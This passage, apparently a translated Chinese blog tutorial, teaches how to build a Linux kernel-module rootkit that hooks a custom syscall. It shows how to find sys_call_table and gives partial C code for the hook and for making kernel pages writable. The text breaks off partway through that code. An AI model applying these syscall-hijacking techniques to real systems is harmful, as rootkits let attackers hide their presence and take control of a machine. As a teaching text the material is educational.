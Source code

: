 <br>

**利用Rootkit“钩取”Pname **

首先要弄清楚的一件事情是，现在我们要以hook的形式来打造一个内核模块，而不是借助系统调用。这些模块可以随时通过insmod和rmmod命令（前提是您已经获得了相应的权限）加载到内存和从内核中删除。为了查看当前正在运行的所有模块，您可以使用lsmod命令。就像我们的新程序将成为一个模块一样，从技术上讲，它可以被定义为一个hook，因为我们将“hooking”到之前创建的pname系统调用上。

在研究过程中，我在[https://www.quora.com/How-can-I-hook-system-calls-in-Linux](https://www.quora.com/How-can-I-hook-system-calls-in-Linux)发现了一篇非常棒的文章，它深入浅出地介绍了打造hook的方法。请选择一个存储hook的目录并利用cd命令切换到这个目录下面，这里我选择的是root目录。

**查找sys_call_table地址：**

我们首先要做的事情就是找到系统调用表地址，因为一旦找到了这个地址，我们就能够对其进行相应的处理，进而hook系统调用了。为了找到这个地址，我们只需在终端中键入： 

```
cat /boot/System.map-3.16.36 | grep sys_call_table
```

[![](https://p2.ssl.qhimg.com/t01e7718c172484de9f.jpg)](https://p2.ssl.qhimg.com/t01e7718c172484de9f.jpg)

将这个地址复制到我们的代码中。

注意：有许多方法可以用来动态搜索sys_call_table，我强烈建议您使用这些方法而不是硬编码。然而，为了便于学习，这里就不那么讲究了。我打算将来编写一个更高级的rootkit，让它也支持动态搜索能力。如果你想提前了解这方面的知识并亲自尝试一下的话，我建议阅读下面的文章： [https://memset.wordpress.com/2011/01/20/syscall-hijacking-dynamically-obtain-syscall-table-address-kernel-2-6-x/](https://memset.wordpress.com/2011/01/20/syscall-hijacking-dynamically-obtain-syscall-table-address-kernel-2-6-x/)

Hook! Hook! Hook!

以下是我的captainhook.c代码: 



```
#include &lt;asm/unistd.h&gt;
#include &lt;asm/cacheflush.h&gt;
#include &lt;linux/init.h&gt;
#include &lt;linux/module.h&gt;
#include &lt;linux/kernel.h&gt;
#include &lt;linux/syscalls.h&gt;
#include &lt;asm/pgtable_types.h&gt;
#include &lt;linux/highmem.h&gt;
#include &lt;linux/fs.h&gt;
#include &lt;linux/sched.h&gt;
#include &lt;linux/moduleparam.h&gt;
#include &lt;linux/unistd.h&gt;
#include &lt;asm/cacheflush.h&gt;
MODULE_LICENSE("GPL");
MODULE_AUTHOR("D0hnuts");
/*MY sys_call_table address*/
//ffffffff81601680
void **system_call_table_addr;
/*my custom syscall that takes process name*/
asmlinkage int (*custom_syscall) (char* name);
/*hook*/
asmlinkage int captain_hook(char* play_here) `{`
    /*do whatever here (print "HAHAHA", reverse their string, etc)
        But for now we will just print to the dmesg log*/
    printk(KERN_INFO "Pname Syscall:HOOK! HOOK! HOOK! HOOK!...ROOOFFIIOO!");
    return custom_syscall(play_here);
`}`
/*Make page writeable*/
int make_rw(unsigned long address)`{`
    unsigned int level;
    pte_t *pte = lookup_address(address, &amp;level);
    if(pte-&gt;pte &amp;~_PAGE_RW)`{`
        pte-&gt;pte |=_PAGE_RW;
    `}`
```